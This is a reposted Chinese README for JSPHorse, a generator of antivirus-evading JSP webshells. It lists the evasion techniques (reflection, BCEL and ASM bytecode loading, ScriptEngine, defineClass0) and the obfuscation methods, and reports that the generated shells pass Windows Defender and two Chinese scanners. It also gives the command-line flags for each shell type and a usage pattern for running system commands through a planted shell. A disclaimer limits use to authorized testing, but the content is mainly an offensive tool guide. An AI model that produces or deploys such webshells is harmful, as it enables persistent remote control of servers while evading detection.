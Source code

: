 # 前言
学习下4ra1n师傅的代码，并加点自己的一点垃圾代码（已写了一些注释，方便理解）

因为4ra1n师傅退圈了，无法联系到，所以如果侵犯了您的权益，请联系我删除


# 使用说明：
源代码启动路径：

JSPHorse-master.zip\JSPHorse-master\src\main\java\org\sec



源代码使用的jdk：

jdk8



运行jar：

D:\Soft1\jdk\jdk1.8\bin\java.exe -cp  JSPHorse.jar org.sec.Main -p 233 --bcel-asm -u



tomcat环境：

 Apache Tomcat/9.0.65


## 原文：

# JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**


## 简介

一个JSP免杀Webshell生成器，主要支持普通回显Webshell，也实现了蚁剑的免杀

生成代码技术基于AST库`JavaParser`和字节码操作框架`ASM`

具体的原理参考先知社区文章：https://xz.aliyun.com/t/10507

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

主要的免杀技术：

- 基本的Java反射调用免杀
- BCEL格式字节码反射加载免杀
- ScriptEngine调用JS免杀
- Javac动态编译class免杀
- java.beans.Expression免杀
- 自定义ClassLoader加载字节码免杀
- native方法defineClass0加载字节码免杀
- ASM直接构造字节码(普通和BCEL)并加载执行免杀

代码生成方式：

- 双重随机异或运算加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

## Quick Start

![](https://github.com/EmYiQing/JSPHorse/blob/master/img/01.png)

在Github右侧Release页面下载

- 生成标准形式基础Webshell

`java -jar JSPHorse.jar -p your_password`

- 生成蚁剑的免杀Webshell

`java -jar JSPHorse.jar -p your_password --ant`

- 生成Javac动态编译class的Webshell

`java -jar JSPHorse.jar -p your_password --javac`

- 使用ScriptEngine调用JS免杀

`java -jar JSPHorse.jar -p your_password --js`

- 使用Expression免杀

`java -jar JSPHorse.jar -p your_password --expr`

- 使用自定义ClassLoader加载字节码

`java -jar JSPHorse.jar -p your_password --classloader`

- 用ASM动态生成字节码使用自定义ClassLoader加载

`java -jar JSPHorse.jar -p your_password --classloader-asm`

- 加载BCEL字节码免杀（动态构造字节码）

`java -jar JSPHorse.jar -p your_password --bcel`

- 用ASM动态生成BCEL字节码免杀

`java -jar JSPHorse.jar -p your_password --bcel-asm`

- 使用Proxy类的native方法`defineClass0`加载字节码

注意：原理是在JVM中注册类，不允许重复，所以这种马只能执行一次命令然后失效

但`JSPHorse`从字节码层面构造了不同的类，如果想要多次执行只要重复生成多个马即可

`java -jar JSPHorse.jar -p your_password --proxy`

- 使用`defineClass0`加载ASM直接构造的字节码

注意：原理同上，只能执行一次

但`JSPHorse`每次生成的类名不一致，可以重新生成来做多次执行

`java -jar JSPHorse.jar -p your_password --proxy-asm`

- 任何一种方式加入`-u`参数进行Unicode编码（有时候有奇效）

`java -jar JSPHorse.jar -p your_password --expr -u`

- 使用`-o`指定输出文件，默认输出到`result.jsp`

`java -jar JSPHorse.jar -p your_password -o 1.jsp`

- 如何使用

1. 普通情况：`1.jsp?pwd=your_password&cmd=ipconfig`

2. 蚁剑：正常使用

## 其他

### Star

![](https://starchart.cc/EmYiQing/JSPHorse.svg)

### 推荐

从混淆程度来看，最高的应该是以下几种，也许会有较高的免杀效果

1. ASM动态生成BCEL字节码并加载：`--bcel-asm -u`
2. 使用ScriptEngine加载JS：`--js -u`
3. 使用Javac动态编译：`--javac -u`

### 计划

后续计划：
1. 参考网上已有的免杀Webshell思路以及各种新姿势逐渐完善
2. 目前在从代码方面混淆，是否可以尝试从字节码层面混淆以实现免杀
3. 是否可以多种免杀手段随机组合，生成再进一步的免杀Webshell

## 感谢

参考三梦师傅的Webshell：https://github.com/threedr3am/JSP-Webshells

参考天下大木头师傅的Webshell：https://github.com/KpLi0rn/Shell

参考su18师傅的`defineClass0`方式：https://github.com/su18

## 免责申明

**未经授权许可使用`JSPHorse`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**

